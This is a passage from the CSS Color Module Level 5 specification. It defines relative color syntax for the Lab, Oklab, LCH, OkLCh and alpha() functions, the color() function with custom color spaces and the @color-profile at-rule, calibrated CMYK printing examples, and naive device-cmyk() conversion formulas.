- **h** is a `<number>` that corresponds to the origin color’s HWB hue, in degrees, after conversion, if required to sRGB, normalized to a [0, 360] range. 90 is equivalent to 90deg.
- **w** and **b** are `<number>`s that correspond to the origin color’s HWB whiteness and blackness after conversion, if required to sRGB. 100 is equivalent to 100%.
- **alpha** is a `<number>` that corresponds to the origin color’s alpha transparency. 1.0 is equivalent to 100%.

#### 4.6. Relative Lab Colors {#css-color-5:relative-Lab}

The meaning of Lab colors is defined in [CSS Color 4 § 9.1 CIE Lab and LCH](#css-color-4:cie-lab).

The grammar of the `lab()` function is extended as follows:

```css
lab() = lab([from <color>]?
        [<percentage> | <number> | none]
        [<percentage> | <number> | none]
        [<percentage> | <number> | none]
        [ / [<alpha-value> | none] ]? )
```

Within a relative color syntax `lab()` function, the allowed component keywords are:

- **l** is a `<number>` that corresponds to the origin color’s CIE Lightness after conversion, if required, to CIE Lab. 100 is equivalent to 100%.
- **a** and **b** are `<number>`s that correspond to the origin color’s CIE Lab a and b axes after conversion, if required, to CIE Lab. 125 is equivalent to 100%, while -125 is equivalent to -100%.
- **alpha** is a `<number>` that corresponds to the origin color’s alpha transparency. 1.0 is equivalent to 100%.

> **Example:** Multiple ways to adjust the transparency of a base color:
>
> - `lab(from var(--mycolor) l a b / 100%)` sets the alpha of `var(--mycolor)` to 1.0, regardless of what it originally was.
> - `lab(from var(--mycolor) l a b / calc(alpha * 0.8))` reduces the alpha of `var(--mycolor)` by 20% of its original value.
>
> Note that all the adjustments are lossless in the sense that no gamut clipping occurs, since lab() encompasses all visible color. This is not true for the alpha adjustments in the sRGB based functions (such as 'rgb()', 'hsl()', or 'hwb()'), which would also convert to sRGB as a necessary step for calculation of HSL or HWB, in addition to adjusting the alpha transparency.

> **Example:** Fully desaturating a color to gray, keeping the exact same lightness:
>
> ```
> --mycolor:  orchid;
> /* orchid is lab(62.753 52.460 -34.103) */
> --mygray:  lab(from var(--mycolor) l 0 0);
> /* mygray is lab(62.753 0 0) which is rgb(59.515% 59.515% 59.515%) */
> ```

#### 4.7. Relative Oklab Colors {#css-color-5:relative-Oklab}

The meaning of Oklab colors is defined in [CSS Color 4 § 9.2 Oklab and OkLCh](#css-color-4:ok-lab).

The grammar of the `oklab()` function is extended as follows:

```css
oklab() = oklab([from <color>]?
          [<percentage> | <number> | none]
          [<percentage> | <number> | none]
          [<percentage> | <number> | none]
          [ / [<alpha-value> | none] ]? )
```

Within a relative color syntax `oklab()` function, the allowed component keywords are:

- **l** is a `<number>` that corresponds to the origin color’s Oklab Lightness after conversion, if required, to Oklab. 1.0 is equivalent to 100%.
- **a** and **b** are `<number>`s that correspond to the origin color’s Oklab a and b axes after conversion, if required, to Oklab. 0.4 is equivalent to 100%, while -0.4 is equivalent to -100%.
- **alpha** is a `<number>` that corresponds to the origin color’s alpha transparency. 1.0 is equivalent to 100%.

#### 4.8. Relative LCH Colors {#css-color-5:relative-LCH}

The meaning of LCH colors is defined in [CSS Color 4 § 9.1 CIE Lab and LCH](#css-color-4:cie-lab).

The grammar of the `lch()` function is extended as follows:

```css
lch() = lch([from <color>]?
        [<percentage> | <number> | none]
        [<percentage> | <number> | none]
        [<hue> | none]
        [ / [<alpha-value> | none] ]? )
```

Within a relative color syntax `lch()` function, the allowed component keywords are:

- **l** is a `<number>` that corresponds to the origin color’s CIE Lightness after conversion, if required, to CIE LCH. 100 is equivalent to 100%.
- **c** is a `<number>` that corresponds to the origin color’s LCH chroma after conversion, if required, to CIE LCH. 150 is equivalent to 100%.
- **h** is a `<number>` that corresponds to the origin color’s LCH hue, in degrees, after conversion, if required, to CIE LCH, normalized to a [0, 360] range. 90 is equivalent to 90deg.
- **alpha** is a `<number>` that corresponds to the origin color’s alpha transparency. 1.0 is equivalent to 100%.

> **Example:** `lch(from peru calc(l * 0.8) c h)` produces a color that is 20% darker than  peru or lch(62.2532% 54.0114 63.6769), with its chroma and hue left unchanged. The result is   lch(49.80256 54.0114 63.6769)

> **Example:** This adds 180 degrees to the hue angle, giving the complementary color.
>
> ```
> --accent:  lightseagreen;
> --complement:   lch(from var(--accent) l c calc(h + 180));
> ```
>
> lightseagreen is lch(65.4937 39.4484 190.1013), so --complement is  lch(65.4937 39.4484 370.1013)

> **Example:** Fully desaturating a color to gray, keeping the exact same lightness:
>
> ```
> --mycolor:  orchid;
> /* orchid is lch(62.753 62.571 326.973) */
> --mygray:  lch(from var(--mycolor) l 0 h);
> /* mygray is lch(62.753 0 326.973) which is rgb(59.515% 59.515% 59.515%) */
> ```
>
> But now (since the hue was preserved) *re-saturating* again
>
> ```
> --mymuted:  lch(from var(--mygray) l 30 h);
> /* mymuted is lch(62.753 30 326.973) which is rgb(72.710% 53.293% 71.224%) */
> ```

However, unlike HSL, manipulations are not guaranteed to be in-gamut.

> **Example:** In this example, the aim is to produce a new color with the same Lightness and Chroma, but the triad (hue differs by 120 degrees). The origin color is inside the RGB gamut, but rotating the hue in LCH produces an out of gamut color.
>
> ```
> --mycolor:  lch(60% 90 320);
> lch(from var(--mycolor) l c calc(h - 120));
> ```
>
> This gives a very high-chroma blue-green,  lch(60% 90 200) which is color(srgb -0.6 0.698 0.772) and thus out of gamut (negative red value) for sRGB. Indeed, it is out of gamut for display-p3:  color(display-p3 -0.46 0.68 0.758) and even rec2020:  color(rec2020 -0.14 0.623 0.729).
>
> The closest color inside the sRGB gamut would be  lch(60.71% 37.56 201.1) which is  rgb(0% 64.2% 66.3%). The difference in chroma (37.5, instead of 90) is huge.
>
> Diagram of CIE CH plane showing relative color manipulation. The *a* and *b* axes are labelled, and cross in the middle. We are looking down the central Lightness axis. The maximal gamut of the sRGB color space is shown as an irregular, convex polygon.
>
> This diagram shows the sRGB gamut, in the CIE ab plane. Small circles indicate the primary and secondary color. The  origin color, shown as a large circle, is in gamut for sRGB; but becomes  out of gamut (shown as a grey fill and red border) when the LCH hue is rotated -120°. The gamut-mapped  result has much lower chroma.
>
> Performing the same operation in HSL will return an in-gamut result. But it is unsatisfactory in other ways:
>
> ```
> --mycolor:  lch(60% 90 320);
> hsl(from var(--mycolor) calc(h - 120) s l);
> ```
>
> In HSL, --mycolor is  hsl(289.18 93.136% 65.531%) so subtracting 120 degrees gives  hsl(169.18 93.136% 65.531%). Converting that result back to LCH  lch(89.0345% 49.3503 178.714) we see that, due to the hue rotate in HSL, Lightness shot up from 60% to 89%, the Chroma has dropped from 90 to 49, and the Hue actually changed by 141 degrees, not 120.

#### 4.9. Relative OkLCh Colors {#css-color-5:relative-OkLCh}

The meaning of OkLCh colors is defined in [CSS Color 4 § 9.2 Oklab and OkLCh](#css-color-4:ok-lab).

The grammar of the `oklch()` function is extended as follows:

```css
oklch() = oklch([from <color>]?
          [<percentage> | <number> | none]
          [<percentage> | <number> | none]
          [<hue> | none]
          [ / [<alpha-value> | none] ]? )
```

Within a relative color syntax `oklch()` function, the allowed component keywords are:

- **l** is a `<number>` that corresponds to the origin color’s Oklab Lightness after conversion, if required, to OkLCh. 1.0 is equivalent to 100%.
- **c** is a `<number>` that corresponds to the origin color’s OkLCh chroma after conversion, if required, to OkLCh. 0.4 is equivalent to 100%.
- **h** is a `<number>` that corresponds to the origin color’s OkLCh hue, in degrees, after conversion, if required, to OkLCh, normalized to a [0, 360] range. 90 is equivalent to 90deg.
- **alpha** is a `<number>` that corresponds to the origin color’s alpha transparency. 1.0 is equivalent to 100%.

Because OkLCh is both perceptually uniform and chroma-preserving, and because the axes correspond to easily understood attributes of a color, OkLCh is a good choice for color manipulation.

> **Example:** In this example, the aim is again to produce a new color with the same Lightness and Chroma, but the triad (hue differs by 120 degrees). In this example, we will do the manipulation in OkLCh. The origin color is inside the RGB gamut, but rotating the hue in OkLCh again produces an out of gamut color.
>
> ```
> --mycolor:  lch(60% 90 320);
> oklch(from var(--mycolor) l c calc(h - 120));
> ```
>
> --mycolor is  oklch(0.69012 0.25077 319.893). Subtracting 120 from the Hue gives a very high-chroma blue-green,  oklch(0.69012 0.25077 199.893) which is out of sRGB gamut, color(srgb -0.6018 0.7621 0.8448) as the negative red component indicates. Bring this into gamut by reducing OkLCh Chroma, yields  oklch(0.69012 0.1173 199.893). The OkLCh chroma has dropped from 0.251 to 0.117.

#### 4.10. Relative Alpha Colors {#css-color-5:relative-alpha}

Relative alpha colors refer to an origin color, and only change the alpha channel. The meaning of alpha channels is defined in [CSS Color 4 § 4.2 Representing Transparency in Colors: the <alpha-value> syntax](#css-color-4:alpha-syntax).

The grammar of the `alpha()` function, new in this level, is as follows:

```css
alpha() = alpha(from <color> / [<alpha-value> | none])
```

Within a relative color syntax `alpha()` function, the allowed component keywords are:

- **alpha** is a `<number>` that corresponds to the origin color’s alpha transparency. 1.0 is equivalent to 100%.

The color components of the origin color are unchanged, the alpha component is modified or replaced. The result of this function is in the color space of the origin color.

> **Example:** For example, here the result is the same as the origin color, but the alpha is changed to 80%
>
> ```
> --mycolor:  oklch(60% 0.25 315 / 0.3);
>  alpha(from var(--mycolor) / 80%);
> ```

> **Example:** For example, here the result is the same as the origin color, but the alpha is modified to be half of that in the origin color
>
> ```
> --mycolor:  oklch(60% 0.25 315 / 0.8);
>  alpha(from var(--mycolor) / calc(alpha * 0.5));
> ```

### 5.  Specifying Predefined and Custom Color Spaces: the `color()` Function {#css-color-5:color-function}

The `color()` function allows a color to be specified in a particular, given color space (rather than the implicit sRGB color space that most of the other color functions operate in).

In this level the `color()` function is extended to allow custom color spaces, in addition to the predefined spaces from [CSS Color 4 §  10. Predefined Color Spaces](#css-color-4:predefined).

It is also extended to allow relative, rather than just absolute, colors.

Its syntax is now as follows:

```css
color() = color( [from <color>]? <colorspace-params> [ / [ <alpha-value> | none ] ]? )
<colorspace-params> = [<custom-params> | <predefined-rgb-params> | <xyz-params>]
<custom-params> = <dashed-ident> [ <number> | <percentage> | none ]+
<predefined-rgb-params> = <predefined-rgb> [ <number> | <percentage> | none ]{3}
<predefined-rgb> = srgb | srgb-linear | display-p3 | display-p3-linear | a98-rgb | prophoto-rgb | rec2020
<xyz-params> = <xyz-space> [ <number> | <percentage> | none ]{3}
```

The color function takes parameters specifying a color, in an explicitly listed color space.

It represents either an **invalid color**, as described below, or a valid color.

Any color which is not an invalid color is a **valid color**.

A color may be a valid color but still be outside the range of colors that can be produced by an output device (a screen, projector, or printer). It is said to be **out of gamut** for that color space.

An out of gamut color has component values less than 0 or 0%, or greater than 1 or 100%. These are not invalid; instead, for display, they are gamut-mapped using a relative colorimetric intent which brings the values within the range 0/0% to 1/100% at computed-value time.

Each valid color is either in-gamut for the output device (screen, or printer), or it is out of gamut.

#### 5.1. Relative Color-Function Colors {#css-color-5:relative-color-function}

Within a relative color syntax `color()` function using `<custom-params>`, the number and name of the allowed component keywords are:

- defined by the `components` descriptor on the corresponding `@color-profile`, if present; otherwise, no relative color manipulation is valid. They are `<number>`s that correspond to the origin color’s components after conversion, if required to the color space of the color profile. The value 1.0 corresponds to 100%.

Within a relative color syntax `color()` function using `<predefined-rgb-params>`, the allowed component keywords are:

- **r**, **g**, and **b** are all `<number>`s that correspond to the origin color’s red, green, and blue components after conversion, if required to the predefined RGB color space. The value 1.0 corresponds to 100%.

Within a relative color syntax `color()` function using `<xyz-params>`, the allowed component keywords are:

- **x**, **y**, **z** are all `<number>`s that correspond to the origin color’s X, Y and Z components after conversion, if required to relative CIE XYZ color space adapted to the relevant white point. The value 1.0 corresponds to 100%.

Within a relative color syntax `color()` function using either `<predefined-rgb-params>` or `<xyz-params>`, an additional allowed component keyword is:

- **alpha** is a `<number>` that corresponds to the origin color’s alpha transparency. 1.0 is equivalent to 100%.

The parameters have the following form:

- An `<ident>` or `<dashed-ident>` denoting the color space. If this is an <ident> it denotes one of the predefined color spaces [CSS Color 4 §  10. Predefined Color Spaces](#css-color-4:predefined) (such as `display-p3`); if it is a <dashed-ident> it denotes a custom color space, defined by a `@color-profile` rule. Individual predefined color spaces may further restrict whether `<number>`s or `<percentage>`s or both, may be used.

  If the `<ident>` names a non-existent color space (a name that does not match one of the predefined color spaces), or a predefined but unsupported color space, this argument represents an invalid color.

  If the `<dashed-ident>` names a non-existent color space ( a name that does not match an color profile’s name, or which matches but the corresponding profile has not loaded, or does not represent a valid profile), this argument represents an invalid color.
- One or more `<number>`s or `<percentage>`s providing the parameter values that the color space takes.

  For custom color spaces, specified component values less than 0 or 0%, or greater than 1 or 100% are not invalid; they are clamped to the valid range at computed value time. This is because ICC profiles typically do not accept out of range input values.

  For custom color spaces, if more `<number>`s or `<percentage>`s are provided than parameters that the color space takes, the excess <number>s at the end are ignored. The color is still a valid color.

  For custom color spaces, if more `<number>`s or `<percentage>`s are provided than components listed in the optional components descriptor, the additional values at the end are still valid, but cannot be used in Relative Color Syntax. The color is still a valid color.

  For custom color spaces, if fewer `<number>`s or `<percentage>`s are provided than parameters that the color space takes, the missing parameters default to `0`. (This is particularly convenient for multicomponent printers where the additional inks are spot colors or varnishes that most colors on the page won’t use.) The color is still a valid color.

  For predefined color spaces, specified component values less than 0 or 0%, or greater than 1 or 100% are not invalid; these out of gamut colors are gamut mapped to the valid range at computed value time, with a relative colorimetric intent.
- An optional slash-separated `<alpha-value>`.If omitted, it defaults to `100%`.

> **Example:** For example, Relative Color Syntax in the CIE XYZ D65 colorspace is used to generate a color which has the same chromaticity but exactly half the luminance of the base color:
>
> ```css
> --base:  color(display-p3 0.7 0.5 0.2);
> --dark:  color(from var(--base) xyz-d65 calc(x/2) calc(y/2) calc(z/2));
> ```
>
> The origin color is color(xyz-d65 0.281 0.253 0.044) and so the relative color is color(xyz-d65 0.14 0.126 0.022).

#### 5.2.  Custom Color Spaces {#css-color-5:custom-color}

CSS allows colors to be specified by reference to a color profile. This could be for example a calibrated CMYK printer, or an RGB color space, or any other color or monochrome output device which has been characterized.

> **Example:** This example specifies four calibrated colors: two are custom spaces (for a SWOP-coated CMYK press, and for a wide-gamut seven-ink printer), the other two are predefined spaces (the ProPhoto RGB, and display-p3 RGB spaces). In each case, the numerical parameters are in the range 0.0 to 1.0 (rather than, for example, 0 to 255).
>
> ```css
> color: color(--swopc 0.0134 0.8078 0.7451 0.3019);
> color: color(--indigo 0.0941 0.6274 0.3372 0.1647 0 0.0706 0.1216);
> color: color(prophoto-rgb 0.9137 0.5882 0.4784);
> color: color(display-p3 0.3804 0.9921 0.1412);
> ```

The colors not using a predefined color space [CSS Color 4 §  10. Predefined Color Spaces](#css-color-4:predefined) are distinguished by their use of `<dashed-ident>` and also need a matching `@color-profile` at-rule somewhere in the stylesheet, to connect the name with the profile data.

> **Example:** ```css
> @color-profile --swopc {
>   src: url('http://example.org/swop-coated.icc');}
> @color-profile --indigo {
>   src: url('http://example.org/indigo-seven.icc');}
> ```

#### 5.3.  Specifying a Color Profile: the `@color-profile` at-rule {#css-color-5:at-profile}

The **@color-profile** rule defines and names a **color profile** which can later be used in the `color()` function to specify a color.

It’s defined as:

```css
@color-profile = @color-profile [<dashed-ident> | device-cmyk] { <declaration-list> }
```

The `<dashed-ident>` gives the color profile’s name, by which it will be used in a CSS stylesheet. Alternatively, the `device-cmyk` keyword means that this color profile will, if valid, be used to resolve colors specified in `device-cmyk`.

The `@color-profile` rule accepts the descriptors defined in this specification.

| Field | Value |
| --- | --- |
| Name: | **src** |
| For: | `@color-profile` |
| Value: | `<url>` |
| Initial: | n/a |

The `src` descriptor specifies the URL to retrieve the color-profile information from.

If multiple `@color-profile` rules are defined with the same name, the last one in document order wins, and all preceding ones are ignored.

The retrieved ICC profile is valid if

- it can be parsed as an ICC Profile
- it is an Input, Display, Output, or color space ICC profile. (Abstract, DeviceLink, and NamedColor ICC Profiles must not be used).

If the profile is not valid, all CSS colors which reference this profile are invalid colors.

To **fetch an external color profile**, given a `@color-profile` rule *rule*, fetch a style resource given *rule*’s URL, with ruleOrDeclaration being *rule*, destination "color-profile", CORS mode "cors", and processResponse being the following steps given response |/res| and null, failure or a byte stream *byteStream*: If *byteStream* is a byte stream, apply the color profile as parsed from |byteStream.

> **Note:** The Internet Media Type ("MIME type") for ICC profiles is [application/vnd.iccprofile](https://www.iana.org/assignments/media-types/application/vnd.iccprofile).

| Field | Value |
| --- | --- |
| Name: | **rendering-intent** |
| For: | `@color-profile` |
| Value: | relative-colorimetric \| absolute-colorimetric \| perceptual \| saturation |
| Initial: | relative-colorimetric |

Color profiles contain “rendering intents”, which define how to **gamut-map** their color to smaller gamuts than they’re defined over. Often a profile will contain only a single intent, but when there are multiple, the `rendering-intent` descriptor chooses one of them to use.

The four possible rendering intents are [ICC]:

****relative-colorimetric****

: Media-relative colorimetric is required to leave source colors that fall inside the destination medium gamut unchanged relative to the respective media white points. Source colors that are out of the destination medium gamut are mapped to colors on the gamut boundary using a variety of different methods.

  The media-relative colorimetric rendering intent is often used with black point compensation, where the source medium black point is mapped to the destination medium black point as well. This method must map the source white point to the destination white point. If black point compensation is in use, the source black point must also be mapped to the destination black point. Adaptation algorithms should be used to adjust for the change in white point. Relative relationships of colors inside both source and destination gamuts should be preserved. Relative relationships of colors outside the destination gamut may be changed.

****absolute-colorimetric****

: ICC-absolute colorimetric is required to leave source colors that fall inside the destination medium gamut unchanged relative to the adopted white (a perfect reflecting diffuser). Source colors that are out of the destination medium gamut are mapped to colors on the gamut boundary using a variety of different methods. This method produces the most accurate color matching of in-gamut colors, but will result in highlight clipping if the destination medium white point is lower than the source medium white point. For this reason it is recommended for use only in applications that need exact color matching and where highlight clipping is not a concern.

  This method MUST disable white point matching and black point matching when converting colors. In general, this option is not recommended except for testing purposes.

****perceptual****

: This method is often the preferred choice for images, especially when there are substantial differences between the source and destination (such as a screen display image reproduced on a reflection print). It takes the colors of the source image and re-optimizes the appearance for the destination medium using proprietary methods. This re-optimization may result in colors within both the source and destination gamuts being changed, although perceptual transforms are supposed to maintain the basic artistic intent of the original in the reproduction. They will not attempt to correct errors in the source image.

  > **Note:** With v2 ICC profiles there is no specified perceptual reference medium, which can cause interoperability problems. When v2 ICC profiles are used it can be safer to use the media-relative colorimetric rendering intent with black point compensation, instead of the perceptual rendering intent, unless the specific source and destination profiles to be used have been checked to ensure the combination produces the desired result.

  This method should maintain relative color values among the pixels as they are mapped to the target device gamut. This method may change pixel values that were originally within the target device gamut, in order to avoid hue shifts and discontinuities and to preserve as much as possible the overall appearance of the scene.

****saturation****

: This option was created to preserve the relative saturation (chroma) of the original, and to keep solid colors pure. However, it experienced interoperability problems like the perceptual intent, and as solid color preservation is not amenable to a reference medium solution using v4 profiles does not solve the problem. Use of this rendering intent is not recommended unless the specific source and destination profiles to be used have been checked to ensure the combination produces the desired result. This option should preserve the relative saturation (chroma) values of the original pixels. Out of gamut colors should be converted to colors that have the same saturation but fall just inside the gamut.

| Field | Value |
| --- | --- |
| Name: | **components** |
| For: | `@color-profile` |
| Value: | `<ident>`# |
| Initial: | n/a |

Color profiles can define color spaces which contain a varying number of components. For example, a Cyan, Magenta, Yellow and Black (CMYK) profile has four components named c, m, y and k While a four-component additive screen profile might use four components named r, g, y and b.

The value of this descriptor is a comma-separated list of `<ident>` tokens. Each <ident>> names a component, in the order in which they are used in the color profile, while the total number of tokens defines the number of components.

> **Example:** This descriptor declares that there are four components named cyan, magenta, yellow and black:
>
> ```
> components: cyan, magenta, yellow, black
> ```
>
> while this descriptor opts for terser names:
>
> ```
> components: c,m,y,k
> ```

> **Example:** This descriptor declares that there are seven components named cyan, magenta, yellow, black, orange, green and violet:
>
> ```
> components: cyan, magenta, yellow, black, orange, green, violet
> ```

If a component is an ASCII case-insensitive match for `none`, the descriptor is invalid, because that would clash with the token for missing values.

If the name chosen for a component clashes with a CSS numeric constant as defined in [CSS Values 4 § 10.7.1 Numeric Constants: e, pi](#css-values-4:calc-constants) the component is still valid, but inside `calc()` the component will be shadowed by the numeric constant leading to unexpected results.

> **Example:** This descriptor unwisely calls a component `pi`, leading to unexpected results in Relative Color Syntax.
>
> ```
> @color-profile --unwise {
>   src: url(https://example.com/unwise);
>   components: mi, pi, ni;
> }
> --base: color(--unwise 35% 20% 8%);
> --accent: color(from var(--base) --unwise mi calc(pi * 2) calc(ni / 2));
> ```
>
> Here, the component values of --accent are 35%, 3.14159265358979 * 2 = 6.28318530717959, 4%.

#### 5.4.  CSS and Print: Using Calibrated CMYK and Other Printed Color Spaces {#css-color-5:cal-cmyk}

The `@color-profile` at-rule is not restricted to RGB color spaces. While screens typically display colors directly in RGB, printers often represent colors with CMYK.

Calibrated four color print with Cyan, Magenta, Yellow and Black (CMYK), or high-fidelity wide gamut printing with additional inks such as Cyan Magenta Yellow Black Orange Green Violet (CMYKOGV) can also be done in CSS, provided you have an ICC profile corresponding to the combination of inks, paper, total ink coverage and equipment you will use.

> **Example:** For example, using offset printing to ISO 12647-2:2004 / Amd 1:2007 using the FOGRA39 characterization data on 115gsm coated paper with an ink limit of 300% Total Area Coverage [FOGRA39].
>
> ```css
> @color-profile --fogra39 {
>   src: url('https://example.org/Coated_Fogra39L_VIGC_300.icc');
> }
> .header {
>   background-color:   color(--fogra39 0% 70% 20% 0%);
>   }
> ```
>
> Here the color() function first states the name we have given the profile, then gives the percentage of cyan, magenta, yellow, and black.
>
> In this profile, this resolves to the color  lab(63.673303% 51.576902 5.811058) which is  rgb(93.124% 44.098% 57.491%).

Because the actual color resulting from a given CMYK combination is known, an on-screen visualization of the printed output (soft-proof) can be made.

Also, procedures that rely on knowing the color (anti-aliasing, compositing, using the color in a gradient, etc) can proceed as normal.

A grid of colored squares. There are six columns, labelled A to F, and four rows, labelled 1 to 4.

A color checker, used for ensuring color fidelity in the print and photographic industries. Averaged measured Lab values are available for each patch. The rectangles show the Lab values, converted to sRGB. The circles, which are barely visible, show the Lab values, passed through a FOGRA51 [FOGRA51] ICC profile to convert them to CMYK. The CMYK values are then passed through the same ICC profile in reverse, to yield new Lab values. These are then converted to sRGB for display.

The one patch with a more visible circle (third row, first patch) is because the color is slightly outside the gamut of the FOGRA51 CMYK space used.

The table below shows, for each patch, the DeltaE 2000 between the original Lab and the Lab value after round-tripping through CMYK. A DeltaE 2000 of 1 or more is just visible.

|  | A | B | C | D | E | F |
| --- | --- | --- | --- | --- | --- | --- |
| 1 | 0.06 | 0.07 | 0.03 | 0.04 | 0.06 | 0.17 |
| 2 | 0.03 | 0.75 | 0.05 | 0.06 | 0.03 | 0.02 |
| 3 | 1.9 | 0.04 | 0.06 | 0.05 | 0.02 | 0.05 |
| 4 | 0.03 | 0.08 | 0.03 | 0.03 | 0.04 | 0.80 |

> **Example:** This example is using offset printing to ISO 12647-2:2004 using the CGATS/SWOP TR005 2007 characterization data on grade 5 paper with an ink limit of 300% Total Area Coverage, and medium gray component replacement (GCR).
>
> ```css
> @color-profile --swop5c {
>   src: url('https://example.org/SWOP2006_Coated5v2.icc');
> }
> .header {
>   background-color:   color(--swop5c 0% 70% 20% 0%);
> }
> ```
>
> In this profile, this amount of CMYK (the same percentages as the previous example) resolves to the color  lab(64.965217% 52.119710 5.406966) which is  rgb(94.903% 45.248% 59.104%).

Fallback colors can be specified, for example using media queries, to be used if the specified CMYK color is known to be outside the sRGB gamut.

> **Example:** This example uses the same FOGRA39 setup as before, but specifies a bright green which is outside the sRGB gamut. It is, however, inside the display-p3 gamut. Therefore it is displayed as-is on wide gamut screens and in print, and a less intense fallback color is used on sRGB screens.
>
> ```css
> @media (color-gamut: srgb) {
>   .header {
>     background-color:   rgb(8.154% 60.9704% 37.184%);
>     }
> }
> @media print, (color-gamut: p3){
>   .header {
>     background-color:   color(--fogra39 90% 0% 90% 0%);
>     }
> }
> ```
>
> This CMYK color corresponds to lab(56.596645% -58.995875 28.072154) or lch(56.596645% 65.33421077211648 154.5533771086801). In sRGB this would be rgb(-60.568% 62.558% 32.390%) which, as the large negative red component shows, is out of gamut.
>
> Reducing the chroma until the result is in gamut gives  lch(56.596645% 51 154.5533771086801) which is  rgb(8.154% 60.9704% 37.184%) and this has been manually specified as a fallback color.
>
> For wide gamut screens, the color is inside the display-p3 gamut (it is display-p3(0.1658 0.6147 0.3533) ).

Colors are not restricted to four inks (CMYK). For example, wide-gamut 7 Color ink sets can be used.

> **Example:** This example uses the beta FOGRA55 dataset [FOGRA55] for CMYKOGV seven-color printing. Four of the inks - black, cyan, magenta, and yellow - are the same as, and give the same results as, the FOGRA51 set. The other three inks are:
>
> - Orange: CIELAB 65 58 88
> - Green: CIELAB 60 -75 0
> - CIELAB 22 47 -56
>
> The measurement condition is M1, which means that optical brighteners in the paper are accounted for and the spectrophotometer has no UV-cut filter.
>
> ```css
> @color-profile --fogra55beta {
>   src: url('https://example.org/2020_13.003_FOGRA55beta_CL_Profile.icc');
> }
> .dark_skin {
>   background-color: 
>   color(--fogra55beta 0.183596 0.464444 0.461729 0.612490 0.156903 0.000000 0.000000);
> }
> .light_skin {
>   background-color: 
>   color(--fogra55beta 0.070804 0.334971 0.321802 0.215606 0.103107 0.000000 0.000000);
> }
> .blue_sky {
>   background-color: 
>   color(--fogra55beta 0.572088 0.229346 0.081708 0.282044 0.000000 0.000000 0.168260);
> }
> .foliage {
>   background-color: 
>   color(--fogra55beta 0.314566 0.145687 0.661941 0.582879 0.000000 0.234362 0.000000);
> }
> .blue_flower {
>   background-color: 
>   color(--fogra55beta 0.375515 0.259934 0.034849 0.107161 0.000000 0.000000 0.308200);
> }
> .bluish_green {
>   background-color: 
>   color(--fogra55beta 0.397575 0.010047 0.223682 0.031140 0.000000 0.317066 0.000000);
> }
> ```

#### 5.5.  Converting CMYK colors to Lab {#css-color-5:cmyk-to-lab}

Conversion from a calibrated CMYK color space to Lab is typically done by looking up the Lab values in an ICC profile.

#### 5.6.  Converting Lab colors to CMYK {#css-color-5:lab-to-cmyk}

For print, Lab colors will need to be converted to the color space of the printer.

This is typically done by looking up the CMYK values in an ICC profile.

### 6.  Uncalibrated CMYK Colors: the `device-cmyk()` Function {#css-color-5:device-cmyk}

Sometimes, when a given printer has not been calibrated, but the output for particular ink combinations is known through experimentation, or via a printed sample swatchbook, it is useful to express CMYK colors in a device-dependent way.

> **Note:** Because the actual resulting color can be unknown, CSS processors might attempt to approximate it. This approximation is likely to be visually very far from the actual printed result.

The `device-cmyk()` function allows authors to specify a color in this way:

```css
device-cmyk() = <legacy-device-cmyk-syntax> | <modern-device-cmyk-syntax>
<legacy-device-cmyk-syntax> = device-cmyk( <number>#{4} )
<modern-device-cmyk-syntax> = device-cmyk( <cmyk-component>{4} [ / [ <alpha-value> | none ] ]? )
<cmyk-component> = <number> | <percentage> | none
```

The arguments of the `device-cmyk()` function specify the cyan, magenta, yellow, and black components, in order, as a number between 0 and 1 or, in the modern syntax, as a percentage between 0% and 100%. These two usages are equivalent, and map to each other linearly. Values less than 0 or 0%, or greater than 1 or 100%, are not invalid; instead, they are clamped to 0/0% or 1/100% at computed-value time.

In the modern syntax, the fifth argument specifies the alpha component of the color. It’s interpreted identically to the fourth argument of the `rgb()` function. If omitted, it defaults to `100%`.

For [historical reasons](#css-gcpm-3:cmyk-colors), `device-cmyk()` also support a legacy color syntax.

Typically, print-based applications will actually store the used colors as CMYK, and send them to the printer in that form. However, such colors do not have a colorimetric interpretation, and thus cannot be used in gradients, compositing, blending and so on.

As such, Device CMYK colors must be converted to an equivalent color. This is not trivial, like the conversion from HSL or HWB to RGB; the precise conversion depends on the precise characteristics of the output device.

1. If the user, author, or user-agent stylesheet has an `@color-profile` definition for device-cmyk, and the resource specified by the src descriptor can be retrieved, and the resource is a valid CMYK ICC profile, and the user agent can process ICC profiles, the computed value of the `device-cmyk()` function must be the Lab value of the CMYK color.
2. Otherwise, the computed value of the `device-cmyk()` function must be the sRGB value of the CMYK color, as converted with the following naive conversion algorithm.

> **Example:** For example, with no `@color-profile`, the following colors are equivalent, using the naive conversion.
>
> ```css
> color:  device-cmyk(0 81% 81% 30%);
> color:  rgb(178 34 34);
> color:  firebrick;
> ```

> **Example:** With the `@color-profile` specified as in the example stylesheet, the following colors are equivalent, using colorimetric conversion.
>
> ```css
> color:  device-cmyk(0 81% 81% 30%);
> color:  lab(45.060% 45.477 35.459)
> color:  rgb(70.690% 26.851% 19.724%);
> ```

The naive conversion is necessarily approximate, since it has no knowledge of the colorimetry of the inks, the dot gain, the colorimetry of the RGB space, and so on.

A grid of colored squares. There are six columns, labelled A to F, and four rows, labelled 1 to 4.

A color checker, used for ensuring color fidelity in the print and photographic industries. Averaged measured Lab values are available for each patch. The rectangles show the Lab values, converted to sRGB. The circles show the Lab values, passed through an ICC profile to convert them to CMYK. The CMYK value are then naively converted to sRGB.

The table below shows, for each patch, the DeltaE 2000 between the original Lab and the Lab value after round-tripping through CMYK. A DeltaE 2000 of 1 or more is just visible, while 5 or more is just a different color altogether.

|  | A | B | C | D | E | F |
| --- | --- | --- | --- | --- | --- | --- |
| 1 | 11.33 | 9.36 | 5.66 | 7.52 | 12.39 | 21.58 |
| 2 | 6.40 | 8.79 | 11.77 | 17.16 | 11.91 | 3.97 |
| 3 | 12.1 | 17.00 | 3.38 | 1.94 | 18.08 | 14.97 |
| 4 | 1.89 | 6.56 | 7.85 | 8.76 | 9.82 | 10.29 |

#### 6.1.  Naively Converting Between Uncalibrated CMYK and sRGB-Based Color {#css-color-5:cmyk-rgb}

To **naively convert from CMYK to RGBA**:

- `red = 1 - min(1, cyan * (1 - black) + black)`
- `green = 1 - min(1, magenta * (1 - black) + black)`
- `blue = 1 - min(1, yellow * (1 - black) + black)`
- Alpha is same as for input color.

To **naively convert from RGBA to CMYK**:

- `black = 1 - max(red, green, blue)`
- `cyan = (1 - red - black) / (1 - black), or 0 if black is 1`
- `magenta = (1 - green - black) / (1 - black), or 0 if black is 1`
- `yellow = (1 - blue - black) / (1 - black), or 0 if black is 1`
- alpha is the same as the input color

